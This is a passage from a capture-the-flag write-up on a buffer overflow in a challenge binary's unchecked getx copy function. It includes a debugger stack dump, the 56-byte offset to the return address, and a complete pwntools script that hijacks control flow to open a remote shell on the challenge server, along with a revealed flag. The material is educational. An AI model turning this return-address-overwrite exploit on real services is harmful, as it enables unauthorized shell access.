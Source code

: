 When inspecting `getx` we notice that it is a reinvention of `std::strcpy`. Though inspecting the memory reveals that it copies until it finds the character `\n` (newline).

Since it does not check the length of the string copied we may potentially exploit a simple buffer overflow here. Let's try it!

To get an idea of what is going on we will begin by just filling the the buffer with a large number of characters (I piped a string of 500 'A's). To check if the overflow works we have to return from the function `command_line` as the variable we have just written to was allocated by it. We can simply enter 'quit' and the function will return. When inspecting the stack just before we notice that it works:
```
[------------------------------------stack-------------------------------------]
0000| 0x7ffc6771fde8 ('A' <repeats 200 times>...)
0008| 0x7ffc6771fdf0 ('A' <repeats 200 times>...)
0016| 0x7ffc6771fdf8 ('A' <repeats 200 times>...)
0024| 0x7ffc6771fe00 ('A' <repeats 200 times>...)
0032| 0x7ffc6771fe08 ('A' <repeats 200 times>...)
0040| 0x7ffc6771fe10 ('A' <repeats 200 times>...)
0048| 0x7ffc6771fe18 ('A' <repeats 200 times>...)
0056| 0x7ffc6771fe20 ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
```
After continuing we obviously recieve SIGSEGV (segmentation fault) because we just corrupted the stack.

Further inspecting the memory reveals that we actually need exactly 56 bytes before we arrive at the position of the return address on the stack.
Since we already have a function which opens a shell for us we can simply replace the return address with the address of that function.

The full exploit now just looks like this:
```python
from pwn import *

if __name__ == '__main__':
    con = remote('mngmnt-iface.ctfcompetition.com', 1337)
    [ con.recvline() for _ in range(4) ]
    con.sendline('1')  # choose to login
    con.recvline()
    con.sendline('CTF{I_luv_buggy_sOFtware}')  # first password
    con.recvline()
    con.recvline()
    con.sendline('X' * 35)  # second password
    con.recv()

    # begin exploit
    con.sendline('A' * 56 + '\x27\x42\x41\x41')
    con.recvline()
    con.sendline('quit')
    con.recvline()
    # end

    con.interactive()
```
